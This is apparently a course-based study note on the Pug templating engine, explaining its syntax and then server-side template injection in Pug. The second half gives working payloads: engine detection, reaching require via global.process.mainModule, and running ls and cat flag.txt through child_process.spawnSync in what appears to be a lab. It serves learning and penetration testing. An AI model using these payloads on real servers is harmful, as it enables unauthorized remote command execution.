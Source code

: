 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pug

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

{% hint style="info" %}
Pug is commonly integrated with the Express framework in a NodeJS application.
{% endhint %}

Pug is specially-designed to generate HTML files and that is why it has syntax for specifying an HTML tag and tag attributes. Some things to note:

* Pug requires the first word to be the HTML tag that will wrap the following data (e.g. `h1`).
* It allows us to pass tag attributes within parantheses after the tag declaration (`input(type='hidden' name='admin' value='true')`.
* Keywords like `if` and `else` are not treated as HTML tags.
* Puge can execute JavaScript code directly.
  * With the dash character (`-`) the code will be executed by the JavaScript engine and the output won't be displayed (**unbuffered code**) (`- secret = ['❤️','😍', '🤟']`).
  * With the equal sign (`=`) the code will be execute and the output will be displayed (**buffered code**) (`= secret = ['❤️','😍', '🤟']`).

```pug
h1 Hello, #{name}
input(type='hidden' name='admin' value='true')
 
if showSecret
  - secret = ['❤️','😍', '🤟']
  p The secrets are: 
  each val in secret
    p #{val}
  else
    p No secret for you!
```

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Pug requires each line to start with an HTML tag and it uses JavaScript which handles in a non-strict way. Thus, we can use a simple payload such as `#{7*'7'}` and it is executed to `49` and wrapped around `<>`, we can infer that Pug is used (Figure 1).

<figure><img src="../../../.gitbook/assets/web_ssti_pug_1.png" alt=""><figcaption><p>Figure 1: Enumerating a Pug templating engine.</p></figcaption></figure>

Pug is typically rendering on the server-side and since we know that it uses NodeJS, we can use the `child_process.spawnSync` command to execute system commands. The `child_process` module is not available by default, but we can import it via the `require`function, if the latter exists (Figure 2).

```pug
= require
```

<figure><img src="../../../.gitbook/assets/web_ssti_pug_2.png" alt=""><figcaption><p>Figure 2: Checking if direct access to the <code>require</code> function is available.</p></figcaption></figure>

It seems that we don't have direct access to `require` but we can still access it through `global.process.mainModule` (Figure 3).

```pug
= global.process.mainModule.require
```

<figure><img src="../../../.gitbook/assets/web_ssti_pug_3.png" alt=""><figcaption><p>Figure 3: Accessing <code>require</code> via the <code>global</code> object.</p></figcaption></figure>

Next, we can use `require` to import [`child_process`](https://nodejs.org/api/child_process.html#child_processspawnsynccommand-args-options), and use the latter for execute system commands (Figure 4).

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('ls').stdout
```

<figure><img src="../../../.gitbook/assets/web_ssti_pug_4.png" alt=""><figcaption><p>Figure 4: Executing system commands via the Pug templating engine.</p></figcaption></figure>

To read the flag we need to pass the file as a command argument.

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('cat',['flag.txt']).stdout
```
